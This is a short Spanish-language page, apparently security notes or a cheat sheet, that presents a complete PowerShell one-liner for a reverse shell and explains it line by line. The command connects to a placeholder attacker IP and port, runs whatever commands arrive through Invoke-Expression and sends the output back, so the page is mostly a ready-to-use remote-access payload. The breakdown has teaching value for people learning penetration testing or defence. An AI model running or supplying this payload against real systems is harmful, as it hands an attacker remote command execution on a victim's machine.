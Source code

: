 one-liner de PowerShell para establecer una reverse shell:

```PowerShell
powershell -c "$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

1. `powershell -c "`: Esto indica que se está ejecutando PowerShell y que se proporcionará un comando a través de la opción `-c`, que permite ejecutar un comando como argumento de la línea de comandos de PowerShell.
    
2. `"$client = New-Object System.Net.Sockets.TcpClient('tu_ip', tu_puerto);"`: Esta parte del código crea un objeto `TcpClient` de .NET para establecer una conexión TCP con la dirección IP y el puerto especificados del atacante. Reemplaza `'tu_ip'` y `'tu_puerto'` con la dirección IP y el puerto del atacante.
    
3. `"$stream = $client.GetStream();"`: Se obtiene el flujo de datos asociado con el cliente TCP recién creado.
    
4. `"[byte[]]$bytes = 0..65535|%{0};"`: Se inicializa un arreglo de bytes vacío con una longitud máxima de 65536 bytes. Esto se usará para almacenar los datos recibidos de la conexión.
    
5. `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;`: Se inicia un bucle `while` que continúa leyendo datos del flujo hasta que no hay más datos disponibles.
    
6. `;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);`: Se convierten los bytes leídos en una cadena ASCII.
    
7. `;$sendback = (iex $data 2>&1 | Out-String );`: Se ejecuta el comando recibido (`$data`) utilizando `iex`, que es un alias para el cmdlet `Invoke-Expression`. Esto ejecuta el comando y captura su salida. El `2>&1` redirige los errores a la salida estándar. `Out-String` convierte la salida en una cadena para su posterior envío.
    
8. `;$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';`: Se crea una cadena que contiene la salida del comando ejecutado y la ruta del directorio actual de PowerShell, para simular un indicador de comando (`PS`).
    
9. `;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);`: Se convierte la cadena `$sendback2` en una secuencia de bytes utilizando codificación ASCII.
    
10. `;$stream.Write($sendbyte,0,$sendbyte.Length);`: Se envían los bytes al flujo de datos para que sean transmitidos al atacante.
    
11. `;$stream.Flush()};`: Se vacía el búfer de salida para asegurarse de que todos los datos se envíen al atacante.
    
12. `$client.Close()"`: Se cierra la conexión TCP con el atacante una vez que el bucle `while` ha terminado de ejecutarse.

